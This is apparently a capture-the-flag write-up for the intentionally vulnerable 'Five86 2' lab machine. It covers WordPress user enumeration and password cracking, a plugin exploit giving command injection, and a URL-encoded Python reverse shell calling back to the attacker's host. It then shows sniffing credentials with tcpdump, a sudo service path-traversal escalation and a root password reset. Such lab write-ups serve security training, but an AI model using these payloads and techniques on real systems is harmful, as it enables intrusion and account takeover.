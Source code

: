 ```yaml
---
title: Five86 2
categories: [Proving Grounds Play]
tags: [Public Exploit, RFI, service, tcpdump, Wordpress, PrivEsc]
image:
  path: https://i0.wp.com/ethicalhackingguru.com/wp-content/uploads/2021/11/five862.png?resize=1080%2C675&ssl=1
  alt:  Five86-2 Machine 🖥️
---
```




### Lets find the IP address first of the victim machine ➡️

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled.png)

```bash
IP : 10.0.2.43
```
{: .nolineno}

## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Five86.2]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.43
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-03 11:36 IST
Nmap scan report for 10.0.2.43
Host is up (0.0020s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE  SERVICE  VERSION
20/tcp closed ftp-data
21/tcp open   ftp      ProFTPD 1.3.5e
80/tcp open   http     Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: WordPress 5.1.4
|_http-title: Five86-2 &#8211; Just another WordPress site
|_http-server-header: Apache/2.4.41 (Ubuntu)
MAC Address: 08:00:27:19:F4:DF (Oracle VirtualBox virtual NIC)
Service Info: OS: Unix
```
{: .nolineno}

## Web Enumeration ⤵️

Lets set the `/etc/hosts` file as `five86-2`.

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%201.png)

Now lets run wpscan ➡️

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%202.png)

got 3 users → admin , barney , stephen 

Lets find the passwords also through wpscan ⤵️

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%203.png)

```bash
barney : spooky1
stephen : apollo1
```
{: .nolineno}

Lets login with barney credentials →

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%204.png)

Now in plugin section I found a vulnerable service lets enable it for uploading our payload ⤵️

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%205.png)

Now through web I got an [exploit](https://www.exploit-db.com/exploits/46981) poc for exploiting this service →

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%206.png)

So lets follow this path ⬆️

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%207.png)

Now lets upload our payload →

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%208.png)

Now After Inserting I got the path so lets load the url ⤵️

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%209.png)

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%2010.png)

As I got the command Injection so lets have a reverse shell.

```bash
http://five86-2/wp-content/uploads/articulate_uploads/poc/index.php?cmd=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.0.2.42%22,4444));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%2011.png)

Now lets dig into the shell → 

```bash
www-data@five86-2:/home$ ls -al
ls -al
total 40
drwxr-xr-x 10 root    root    4096 Jan  9  2020 .
drwxr-xr-x 20 root    root    4096 Jan  8  2020 ..
drwx------  2 barney  barney  4096 Jan 13  2020 barney
drwx------  2 george  george  4096 Jan 13  2020 george
drwx------  2 gillian gillian 4096 Jan 13  2020 gillian
drwx------  2 john    john    4096 Jan 13  2020 john
drwx------  3 paul    paul    4096 Jan 13  2020 paul
drwx------  4 peter   peter   4096 Jan 13  2020 peter
drwx------  2 richard richard 4096 Jan 13  2020 richard
drwx------  2 stephen stephen 4096 Jan 13  2020 stephen
www-data@five86-2:
```
{: .nolineno}

Now I got 8 users →

```bash
barney:x:1001:1001:Barney Sumner:/home/barney:/bin/bash
stephen:x:1002:1002:Stephen Morris:/home/stephen:/bin/bash
peter:x:1003:1003:Peter Hook:/home/peter:/bin/bash
gillian:x:1004:1004:Gillian Gilbert:/home/gillian:/bin/bash
richard:x:1005:1005:Richard Starkey:/home/richard:/bin/bash
paul:x:1006:1006:Paul McCartney:/home/paul:/bin/bash
john:x:1007:1007:John Lennon:/home/john:/bin/bash
george:x:1008:1008:George Harrison:/home/george:/bin/bash
```
{: .nolineno}

Lets use the same wpscan passwords for switching to another users →

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%2012.png)

```bash
stephen@five86-2:/$ id
uid=1002(stephen) gid=1002(stephen) groups=1002(stephen),1009(pcap)
```
{: .nolineno}

Now lets look for the capability files ➡️

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%2013.png)

So I have tcpdump Lets look for the services/files/ethernet Interface it is running to →

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%2014.png)

Now lets run the tcpdump at this ⬆️`veth8d3c874` interface and capture some traffic into `cap.pcap` file →

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%2015.png)

Now I got a credential for paul →

```bash
paul : esomepasswford
```
{: .nolineno}

lets switch user and recon further →

```bash
paul@five86-2:~$ sudo -l
Matching Defaults entries for paul on five86-2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User paul may run the following commands on five86-2:
    (peter) NOPASSWD: /usr/sbin/service
```
{: .nolineno}

Now call the /bin/sh service for peter to get the peter shell ➡️

```bash
paul@five86-2:~$ sudo -u peter service ../../bin/sh
$ whoami
peter
$ id
uid=1003(peter) gid=1003(peter) groups=1003(peter),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),115(lxd),1010(ncgroup)
$ sudo -l
Matching Defaults entries for peter on five86-2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User peter may run the following commands on five86-2:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/passwd 
$ sudo passwd root
New password: 
Retype new password: 
passwd: password updated successfully
$ su root
Password: 
root@five86-2:/# whoami
root
root@five86-2:/# id
uid=0(root) gid=0(root) groups=0(root)
root@five86-2:/# ls -al /root
total 48
drwx------  5 root root 4096 Jan 13  2020 .
drwxr-xr-x 20 root root 4096 Jan  8  2020 ..
-rw-------  1 root root 1798 Jan 13  2020 .bash_history
-rw-r--r--  1 root root 3106 Aug 27  2019 .bashrc
drwxr-xr-x  3 root root 4096 Jan  9  2020 .local
-rw-r--r--  1 root root  148 Aug 27  2019 .profile
drwxr-xr-x  3 root root 4096 Jan  8  2020 snap
drwx------  2 root root 4096 Jan  8  2020 .ssh
-rwx------  1 root root  995 Jan  9  2020 thisistheflag.txt
-rw-------  1 root root 8853 Jan 13  2020 .viminfo
```
{: .nolineno}

`thisistheflag.txt` file ⤵️

```bash
root@five86-2:/# cat /root/thisistheflag.txt

__   __            _                           _                                 _ _ _ _ _ 
\ \ / /           | |                         | |                               | | | | | |
 \ V /___  _   _  | |__   __ ___   _____    __| | ___  _ __   ___  __      _____| | | | | |
  \ // _ \| | | | | '_ \ / _` \ \ / / _ \  / _` |/ _ \| '_ \ / _ \ \ \ /\ / / _ \ | | | | |
  | | (_) | |_| | | | | | (_| |\ V /  __/ | (_| | (_) | | | |  __/  \ V  V /  __/ | |_|_|_|
  \_/\___/ \__,_| |_| |_|\__,_| \_/ \___|  \__,_|\___/|_| |_|\___|   \_/\_/ \___|_|_(_|_|_)
                                                                                           
                                                                                           
Congratulations - hope you enjoyed Five86-2.

If you have any feedback, please let me know at @Five86_x

I also want to send out a big thanks to all those who help me with beta testing
of the various challenges:  @m0tl3ycr3w and @syed__umar in particular

root@five86-2:/#
```

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }